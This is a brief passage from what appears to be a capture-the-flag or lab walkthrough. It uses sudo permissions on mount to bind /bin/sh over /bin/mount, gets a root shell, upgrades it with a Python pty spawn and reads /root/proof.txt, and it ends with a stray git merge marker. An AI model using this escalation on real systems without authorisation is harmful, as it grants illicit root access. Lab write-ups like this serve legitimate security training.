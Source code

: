 There are same binaries as before, but this time:

```
sudo -l
```

We have sudo permissions. Let's try `mount`:

```
sudo mount -o bind /bin/sh /bin/mount
sudo mount
```

And we have a root shell. Let's try not to lose it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let's see the `proof.txt`:

```
cat /root/proof.txt
```
>>>>>>> 973cb6a03a9300476055ac5dc831eb06761d7cb7
